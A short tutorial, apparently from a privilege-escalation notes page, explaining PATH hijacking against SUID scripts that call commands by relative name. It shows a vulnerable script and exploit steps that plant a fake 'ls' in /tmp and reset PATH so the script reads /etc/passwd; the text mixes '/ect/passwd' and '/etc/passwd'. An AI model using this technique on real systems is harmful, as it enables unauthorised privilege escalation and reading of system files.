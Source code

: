 # Relative path to run binary

## Explanation

**Attention** if you want escalate privileges, the vulnerable script needs at least to have suid permission.
- [SUID redhat](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit)
When a program refere to a binary command without giving the absolute path, you can execute your own program instead of the command.
This program show below refer to this venurability. 

```
#!/bin/bash

ls /ect/passwd
```

When bash interpret `ls`, he is trying to find the command located in the `env | grep PATH`.
It try every directory, from letf to right, to check if the executable is located in. If it is, he execute it.
The tricks is to create a new file name "ls" write some code to execute at the emplacement /ect/passwd.
```
#write the command cat inside a ls file located in /tmp
echo cat > /tmp/ls
chmod +x /tmp/ls

#modifie the PATH, to get bash to find and execute your ls file instead of the real one.
PATH=/tmp
```

Now the previous script execute `cat /etc/passwd` instead of `ls /etc/passwd`.
